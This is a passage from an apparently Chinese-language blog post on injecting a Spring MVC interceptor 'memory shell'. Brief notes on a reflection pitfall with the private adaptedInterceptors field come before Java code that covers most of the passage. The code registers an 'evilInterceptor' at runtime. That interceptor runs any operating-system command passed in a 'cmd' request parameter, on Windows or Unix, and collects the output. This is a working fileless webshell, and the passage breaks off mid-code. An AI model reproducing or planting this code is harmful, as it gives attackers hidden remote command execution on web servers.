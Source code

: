 

> 在期间有个坑

![image-20220422123659126](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220422123659126.png)

就是看似我获取到的是向上转型得到的AbstractHandlerMapping对象,但是我这里使用了getClass是错误的,

当前AbstractHandlerMapping对应的正在运行中的对象是RequestMappingHandlerMapping对象

![image-20220422123824924](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220422123824924.png)

一般呢子类是可以获取到父类的变量的,但是`adaptedInterceptors`是private修饰的,不能被子类继承,也就是说,子类中根本就没有这个字段,所以在这里需要通过`AbstractHandlerMapping.class`来获取`field`

![image-20220422124507783](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220422124507783.png)

```java
@RestController
public class interController{
    @RequestMapping("/injectInter")
    public String inject() throws Exception {

        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        AbstractHandlerMapping abstractHandlerMapping = (AbstractHandlerMapping)context.getBean(RequestMappingHandlerMapping.class);

        Field declaredField = AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
        declaredField.setAccessible(true);
        ArrayList list = (ArrayList) declaredField.get(abstractHandlerMapping);
        list.add(new evilInterceptor());
        return "inject";
    }
}
class evilInterceptor implements HandlerInterceptor {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        StringBuffer res = new StringBuffer();
        //加一个系统的判断
        String os = System.getProperty("os.name");
        boolean isWin = false;
        BufferedReader bufferedReader;
        if (os != null && os.toLowerCase().startsWith("windows")) {
            isWin = true;
        }
        try {
            if (isWin == false) {
                bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(cmd).getInputStream()));
            } else {
                bufferedReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec("cmd /C " + cmd).getInputStream()));
            }

            String len;
            while ((len = bufferedReader.readLine()) != null) {
                res.append(len + "\n");
            }

        } catch (Exception e) {
            res.append(e.getMessage());

```